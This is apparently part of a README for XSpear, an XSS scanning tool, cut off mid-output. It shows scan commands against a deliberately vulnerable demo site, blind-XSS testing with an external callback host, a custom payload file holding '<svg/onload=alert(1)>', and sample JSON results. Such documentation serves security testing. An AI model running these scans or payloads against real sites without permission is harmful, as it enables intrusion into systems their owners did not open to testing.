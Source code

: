**Testing at all parameters**<br>
(This option is tested with or without reflection.)
```
$ xspear -u "http://testphp.vulnweb.com/search.php?test=query&cat=123&ppl=1fhhahwul" -a
```

**Testing Only parameter analysis (aka no-xss mode)**<br>
```
$ xspear -u "http://testphp.vulnweb.com/search.php?test=query&cat=123&ppl=1fhhahwul" --no-xss
```

**Testing blind xss(all params)**<br>
(Should be used as much as possible because Blind XSS is everywhere)<br>
```
$ xspear -u "http://testphp.vulnweb.com/search.php?test=query" -b "https://hahwul.xss.ht" -a

# Set your blind xss host. <-b options>
```

**Testing custom payload**<br>
```
$ xspear -u "http://testphp.vulnweb.com/listproducts.php?cat=123" --custom-payload=custom_payload.json 
```
in custom_payload.json file
```json
[
  {
    "payload":"<svg/onload=alert(1)>",
    "callback":"P1",
    "descript":"blahblah~"
  },
  {
    "payload":"<svg/onload=alert(1)>",
    "callback":"P2",
    "descript":"blahblah~"
  },
  {
    "payload":"<>",
    "callback":"P1",
    "descript":"blahblah~"
  }
]
```

**for Pipeline**<br>
```
$ xspear -u {target} -b "your-blind-xss-host" -a -v 0 -o json

# -u : target 
# -b : testing blind xss
# -a : test all params(test to not reflected param)
# -v : verbose, not showing logs at value 1.
# -o : output optios, json!
```
result json data
```
{
    "starttime": "2019-12-25 00:02:58 +0900",
    "endtime": "2019-12-25 00:03:31 +0900",
    "issue_count": 25,
    "issue_list": [{
        "id": 0,
        "type": "INFO",
        "issue": "DYNAMIC ANALYSIS",
        "method": "GET",
        "param": "cat",
        "payload": "XsPeaR\"",
```
